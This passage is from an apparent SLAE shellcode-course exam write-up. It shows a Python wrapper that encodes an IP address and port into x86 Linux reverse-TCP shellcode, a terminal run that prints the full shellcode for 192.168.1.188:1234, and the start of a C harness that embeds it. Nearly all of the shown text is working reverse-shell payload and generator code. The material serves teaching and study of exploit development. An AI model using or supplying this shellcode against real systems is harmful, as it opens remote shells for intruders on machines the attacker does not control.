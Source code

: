 ```python
ip = sys.argv[1]

ip = ip.split('.')

ip1 = int(ip[0]) + 1
ip2 = int(ip[1]) + 1
ip3 = int(ip[2]) + 1
ip4 = int(ip[3]) + 1

newip = str(ip1) + '.' + str(ip2) + '.' + str(ip3) + '.' + str(ip4)

newHex = binascii.hexlify(socket.inet_aton(newip))

newHex = "\\x" + str(newHex)[0:2] + "\\x" + str(newHex)[2:4] + "\\x" + str(newHex)[4:6] + "\\x" + str(newHex)[6:8]

portNumber = sys.argv[2]
portNumber = int(portNumber)
portNumber = socket.htons(portNumber)
portNumber = hex(portNumber)

portNum1 = portNumber[2:4]
portNum2 = portNumber[4:6]

portNum1 = str(portNum1)
portNum1 = "\\x" + portNum1

portNum2 = str(portNum2)
portNum2 = "\\x" + portNum2

combined = portNum2 + portNum1

shell = shell1 + newHex + shell2 + combined + shell3

		
print shell
```

Let's test out our wrapper!

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ python wrapper.py 192.168.1.188 1234
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xb9\xc1\xa9\x02\xbd\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now, we paste this shellcode into our shellcode.c program

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xb9\xc1\xa9\x02\xbd\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

```